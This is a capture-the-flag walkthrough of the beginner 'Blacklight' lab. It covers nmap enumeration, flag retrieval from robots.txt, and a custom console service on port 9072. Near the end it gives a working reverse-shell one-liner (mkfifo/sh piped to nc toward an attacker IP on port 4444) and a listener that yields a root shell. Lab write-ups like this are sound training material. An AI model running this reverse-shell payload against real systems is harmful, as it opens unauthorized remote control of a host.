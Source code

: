 
# Table of Contents

1.  [Enumeration](#orgcb233c8)
2.  [Footprinting](#org315beb0)
    1.  [80 http](#orga913910)
    2.  [9072 unknown](#org659b846)



<a id="orgcb233c8"></a>

# Enumeration

We start the work with a simple `Host scan` to understand if the hosts is up.

    sudo nmap -sn  192.168.125.150

<span class="underline">Output</span>:

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-23 09:10 EST
    Nmap scan report for 192.168.125.150
    Host is up (0.042s latency).
    Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds

<span class="underline">Output</span>:

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-23 09:12 EST
    Nmap scan report for 192.168.125.150
    Host is up (0.094s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE
    80/tcp open  http
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.94SVN%E=4%D=2/23%OT=80%CT=1%CU=36568%PV=Y%DS=3%DC=I%G=Y%TM=65D8
    OS:A7CC%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=A)
    OS:OPS(O1=M557ST11NW6%O2=M557ST11NW6%O3=M557NNT11NW6%O4=M557ST11NW6%O5=M557
    OS:ST11NW6%O6=M557ST11)WIN(W1=6D38%W2=6D38%W3=6D38%W4=6D38%W5=6D38%W6=6D38)
    OS:ECN(R=Y%DF=Y%T=40%W=6E28%O=M557NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
    OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
    OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
    OS:Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
    OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
    
    Network Distance: 3 hops
    
    OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 14.49 seconds

The host is <span class="underline">up</span> and we have just find one port, the 80 HTTP.
Now we need to find more informations about the host lisks which port are opens.
So let'continue the enumertion with full TCP ports scan.

    nmap -sC -sV 192.168.125.150 -p- --reason 

<span class="underline">Output</span>:

    <SNIP>
    PORT     STATE SERVICE REASON  VERSION
    80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: BLACKLIGHT
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    9072/tcp open  unknown syn-ack
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
    |_    BLACKLIGHT console mk1. Type .help for instructions
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    <SNIP

We have finds some intersting informetions about the hosts.
It has two open ports:
`80 HTTP` running an Apache https with 2.4.29 versions.
`9072 unknown`, it isn't a standard port, from the nmap maybe some interaction protocol via terminal.


<a id="org315beb0"></a>

# Footprinting


<a id="orga913910"></a>

## 80 http

We start by looking for a connection to the web server.
![img](./pics/web.png)

Except for some information about the other the only good stuff is a phrese that say that: "<sub>You</sub> are already close to the first flag. The web is the way.\_"
before enumerating with arrogance let’s try some classical things.

    curl -X GET 192.168.125.150/robots.txt

<span class="underline">Output</span>:

    User-agent: *
    flag1.txt
    blacklight.dict

Okey, simple, the first flag is taken.

    curl -X GET 192.168.125.150/flag1.txt

<span class="underline">Output</span>:

    {flag1:<redacted>}
    
    9072. The secret is at home.

And other hint!

Another interrupting thing made available by the web server is a dict, let’s take it.

    wget 192.168.125.150/blacklight.dict

    wc -l blacklight.dict 

<span class="underline">Output</span>:

    398 blacklight.dict

We have in hand a list with 398 entries.


<a id="org659b846"></a>

## 9072 unknown

Let's check more carefully the port 9072 for try to find other stuff.
We dosen't know what's behind the port, but nmap output has give to us an interesting string.

    BLACKLIGHT console mk1. Type .help for instructions	

It's look likes an interaction via terminal whit the service, there's nothing left to try.

    nc 192.168.125.150 9072

<span class="underline">Output</span>:

    BLACKLIGHT console mk1. Type .help for instructions

As we expected the connection was established and is waiting for our input.
we will immediately enter `.help` to understand what we are offered.

    BLACKLIGHT console mk1. Type .help for instructions
    .help 
    .readhash - Get one step closer
    .exec <cmd> - Execute commands
    .quit - Exit the server
    .exec ls
    You have one more command until the server shuts down. Choose wisely!

We are offered three comands, `.readhash`, `.exec`, `.quit`, the `.exec` immediately attracts attention but trying we realize that it runs a specific command that we do not know and also gives us a last attempt to try, what will happen next?
It’s not worth it, the hash command looks interrupting, let’s try it

    .readhash
    b5f4723bd6df85b54b0905bd6d734be9ef1cc1eb977413a932a828b5c52ef5a6
    Bye!

We have just found aa `hash`, this is very important, let's save it for later.

    echo 'b5f4723bd6df85b54b0905bd6d734be9ef1cc1eb977413a932a828b5c52ef5a6' > hash.unknown

Really interesting the behavior of the service, once closed the connection will also be closed the port, we did well not to dare with . exec.

    nmap -sC 192.168.125.150 -p 9072   

<span class="underline">Output</span>:

    Nmap scan report for 192.168.125.150
    Host is up (0.047s latency).
    
    PORT     STATE  SERVICE
    9072/tcp closed unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds

Being curious to understand thoroughly I decided to restart the car and try a second way.
create a payload for a reverse shell.

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.3.177.13 4444 >/tmp/f

<span class="underline">Start Listener</span>

    nc -nlvp 4444

<span class="underline">Output</span>:

    192.168.125.150: inverse host lookup failed: Unknown host
    connect to [192.168.125.150] from (UNKNOWN) [192.168.125.150] 57228
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
    root

Blacklight is a very easy challenge. It is only suitable for absolute beginners. I wish if the author had integrated some exploitation scenarios or privilege escalation vectors to the box.